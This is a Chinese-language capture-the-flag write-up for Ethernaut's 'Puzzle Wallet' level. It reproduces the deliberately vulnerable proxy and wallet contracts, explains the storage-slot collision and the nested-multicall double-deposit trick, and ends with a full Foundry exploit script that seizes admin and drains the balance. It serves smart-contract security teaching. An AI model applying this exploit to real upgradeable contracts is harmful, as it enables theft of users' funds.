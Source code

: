 # Level 24 - Puzzle Wallet
## 題目
[Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

### 通關條件
事實上，如今，為 DeFi 作業付費是不可能的。
一群朋友發現瞭如何透過將多筆交易批量處理為一筆交易來稍微降低執行多筆交易的成本，因此他們開發了一個智能合約來實現這一點。
他們需要該合約能夠升級，以防程式碼包含錯誤，並且他們還希望防止組外的人使用它。為此，他們投票並分配了兩個在系統中具有特殊角色的人：管理員，有權更新智能合約的邏輯。所有者，控制允許使用合約的地址白名單。合約已部署，該組已列入白名單。每個人都為自己對抗邪惡礦工的成就而歡呼。
他們殊不知，他們的午餐錢正處於危險之中…
您需要劫持此錢包才能成為代理的管理員。
### 提示
- 了解執行一項操作時如何delegatecall運作以及如何msg.sender表現msg.value。
- 了解代理模式及其處理儲存變數的方式。
### 合約內容
```solidity=

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
## 解題
這題牽扯到 Proxy Contract，建議先看完 [WTF Solidity极简入门: 46. 代理合约
](https://github.com/AmazingAng/WTF-Solidity/tree/main/46_ProxyContract)

這題可以看到代理合約跟邏輯合約的變數宣告不一致，storage slot 會產生衝突。所以我們只要透過 `proposeNewAdmin()`（23 行）修改代理合約的 `pendingAdmin`，就會因為 slot 衝突進而修改到 `PuzzleWallet` 的 `owner`（都是第一個宣告的變數）。順利取得 `PuzzleWallet` 的 owner 權限。
```solidity
level24Proxy.proposeNewAdmin(msg.sender);
```
接下來就是要奪取 `PuzzleProxy` 的 admin 權限。跟剛剛一樣，我們的目標是修改 `PuzzleWallet` 的 `maxBalance` 讓 admin 跟著一起改變。改變 `maxBalance` 的 function 在第 54 行，要先通過 modifier `onlyWhitelisted()`，所以要把自己加入到白名單中，透過 59 行的 `addToWhitelist()`。
接下來要通過 55 行的 `require(address(this).balance == 0)`，必須將合約中的幣題光，合約中有 0.001 eth，雖然 `execute()` 可以提款但是只能提取自己存進去的 eth，所以現在要想辦法讓自己在 `PuzzleWallet` 中的錢顯示 0.002 但其實只有存入 0.001。
這裡要用到合約中最後的 function `multicall(bytes[] calldata data)`（76 行），他會將參數 `data[]` 中存入的 function 逐一執行，所以我們只要 `[deposit, [multicall, deposit]]` 就可以實現只放入 0.001 但執行兩次 `deposit()` 的效果。
```solidity
bytes[] memory depositSelector = new bytes[](1);
depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
bytes[] memory nestedMulticall = new bytes[](2);
nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
level24Wallet.addToWhitelist(msg.sender);
level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
level24Wallet.execute(msg.sender, 0.002 ether, "");
level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));
```
最後攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/24_PuzzleWallet.sol";

contract ExploitScript is Script {
    PuzzleProxy level24Proxy = PuzzleProxy(payable(your_challenge_address));
    PuzzleWallet level24Wallet = PuzzleWallet(payable(your_challenge_address));
    
    function run() external {
        vm.startBroadcast();

        level24Proxy.proposeNewAdmin(msg.sender);

        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(level24Wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(level24Wallet.multicall.selector, depositSelector);
        level24Wallet.addToWhitelist(msg.sender);
        level24Wallet.multicall{value: 0.001 ether}(nestedMulticall);
        level24Wallet.execute(msg.sender, 0.002 ether, "");
        level24Wallet.setMaxBalance(uint256(uint160(msg.sender)));

        vm.stopBroadcast();
    }
}
```